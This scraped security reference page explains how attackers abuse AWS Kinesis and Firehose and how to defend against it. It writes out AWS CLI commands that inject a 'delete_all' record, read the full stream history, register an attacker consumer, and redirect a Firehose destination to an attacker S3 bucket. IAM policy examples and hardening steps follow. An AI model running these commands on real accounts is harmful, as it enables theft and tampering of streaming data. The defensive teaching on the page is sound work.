

Kinesis is a real-time data streaming service for collecting, processing, and analyzing data streams. Attackers exploit Kinesis to intercept real-time data, inject malicious records, and exfiltrate streaming data containing logs, events, and business transactions.
Kinesis Data Streams ingest real-time data via shards. Each shard handles 1MB/s write and 2MB/s read. Data is retained for 24 hours by default (up to 365 days). Records are base64-encoded and ordered by sequence number.
Kinesis Data Firehose delivers streaming data to S3, Redshift, Elasticsearch, Splunk, and HTTP endpoints. Attackers who modify the delivery destination can redirect entire data pipelines to attacker infrastructure.
Kinesis streams contain real-time data including logs, transactions, and events. Attackers can read historical data within retention period, inject malicious records, and redirect streams to attacker-controlled destinations.
aws kinesis list-streamsaws kinesis describe-stream --stream-name my-streamaws firehose list-delivery-streamsaws kinesis list-stream-consumers --stream-arn <arn>aws kinesis get-shard-iterator --stream-name target-stream --shard-id shardId-000000000000 --shard-iterator-type TRIM_HORIZONaws kinesis put-record --stream-name app-events --partition-key inject --data 'eyJhY3Rpb24iOiJkZWxldGVfYWxsIn0='aws firehose update-destination --delivery-stream-name logs --destination-id dest-1 --s3-destination-update BucketARN=arn:aws:s3:::attacker-bucket,RoleARN=arn:aws:iam::123:role/firehoseaws kinesis register-stream-consumer --stream-arn arn:aws:kinesis:us-east-1:123:stream/sensitive --consumer-name attacker-consumeraws firehose describe-delivery-stream --delivery-stream-name my-firehose --query 'DeliveryStreamDescription.Destinations'aws kinesisvideo list-streams --query 'StreamInfoList[*].{Name:StreamName,ARN:StreamARN}'{
"Effect": "Allow",
"Action": "kinesis:*",
"Resource": "*"
}Full Kinesis access enables data interception, injection, and stream manipulation
{
"Effect": "Allow",
"Action": [
"firehose:UpdateDestination",
"firehose:DescribeDeliveryStream"
],
"Resource": "*"
}
// Attacker can redirect ALL Firehose
// delivery streams to their own S3/HTTPUpdateDestination permission lets attacker redirect entire data pipelines silently
{
"Effect": "Allow",
"Action": [
"kinesis:PutRecord",
"kinesis:PutRecords"
],
"Resource": "arn:aws:kinesis:*:*:stream/app-events"
}Limited to writing records to a specific stream - cannot read stream data
{
"Effect": "Allow",
"Action": [
"kinesis:GetRecords",
"kinesis:GetShardIterator",
"kinesis:DescribeStream"
],
"Resource": "arn:aws:kinesis:*:*:stream/app-events"
},
{
"Effect": "Allow",
"Action": "kms:Decrypt",
"Resource": "arn:aws:kms:*:*:key/stream-key-id"
}Read-only access to specific stream with KMS decryption for encrypted data
Encrypt stream data at rest with KMS to control access via key policies.
aws kinesis start-stream-encryption \\\n --stream-name my-stream \\\n --encryption-type KMS \\\n --key-id alias/kinesis-keyRegistered consumers provide better access control and isolation than shared throughput.
aws kinesis register-stream-consumer \\\n --stream-arn <arn> \\\n --consumer-name authorized-appReduce retention to limit historical data exposure window (default 24h, max 365 days).
aws kinesis decrease-stream-retention-period \\\n --stream-name sensitive-data \\\n --retention-period-hours 24Alert on new consumers, unusual read patterns, or iterator type changes (especially TRIM_HORIZON).
CloudWatch Alarm: RegisterStreamConsumer\nAlert on GetShardIterator TRIM_HORIZON\nfrom unknown principalsUse different IAM roles for writing and reading stream data to enforce least privilege.
Producer: kinesis:PutRecord only\nConsumer: kinesis:GetRecords only\nNEVER combine bothRestrict UpdateDestination permission via SCP and monitor all destination changes.
SCP: Deny firehose:UpdateDestination\n except from approved admin roles